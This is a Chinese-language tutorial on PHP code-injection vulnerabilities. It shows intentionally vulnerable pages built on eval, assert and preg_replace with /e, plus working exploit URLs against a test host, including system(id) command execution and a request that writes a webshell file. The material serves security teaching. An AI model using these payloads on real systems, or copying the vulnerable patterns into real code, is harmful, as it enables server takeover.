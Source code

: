  

当应用在调用一些字符串转化为代码的函数时，没有考虑用户是否能控制这个字符串，将造成代码注入漏洞(代码执行漏洞)。

PHP      eval()、assert()、preg_replace()
python    exec()
Java     没有类似于前面两者的函数，但是有反射机制，并且有基于反射机制的表达式引擎，如：0GNL、SpEL、MVEL等

## 1、动态代码执行

```php
<?php
function m_print(){
	echo '这是一个页面';
}
$_GET['a']($_GET['b']);
?>
```

查看php信息

assert 可以执行php里面的一些函数比如phpinfo()

```http
http://www.webtester.com/code/code01.php?a=assert&b=phpinfo()
```

![image-20210414223239848](../acess/image-20210414223239848.png) 

```http
http://www.webtester.com/code/code01.php?a=assert&b=system(id)
```

![image-20210414223330690](../acess/image-20210414223330690.png) 

```http
http://www.webtester.com/code/code01.php?a=assert&b=var_dump(1)
```

![image-20210414223551635](../acess/image-20210414223551635.png)

## 2、eval代码执行

```php
<?php  
$data = isset($_GET['data'])?$_GET['data']:'这是一个eval漏洞页面';  
@eval($ret = $data);  
echo $ret;
?>
```

eval可以执行php代码

```http
http://www.webtester.com/code/code02.php?data=phpinfo();
http://www.webtester.com/code/code02.php?data=system(id);
```

![image-20210414223941072](../acess/image-20210414223941072.png) 

写入webshell

```http
http://www.webtester.com/code/code02.php?data=fputs(fopen("../upload/getshell.php","a"),"<?php phpinfo();?>");
```

访问

```http
http://www.webtester.com/upload/getshell.php
```

![image-20210414224654105](../acess/image-20210414224654105.png) 

## 3、正则代码执行

```php
<?php  
$data = $_GET['data'];  
preg_replace('/<data>(.*)<\/data>/e','$ret = "\\1";',$data);  
?>
```

```html
<form>
<label>请输入你的数据</label>
<input type='text' name='data'/>
<input type='submit' value='提交'/>
</form>
```

<data>{${phpinfo()}}</data>

```
http://www.webtester.com/code/code03.php?data=<data>{${phpinfo()}}</data>
```

![image-20210414225316135](../acess/image-20210414225316135.png) 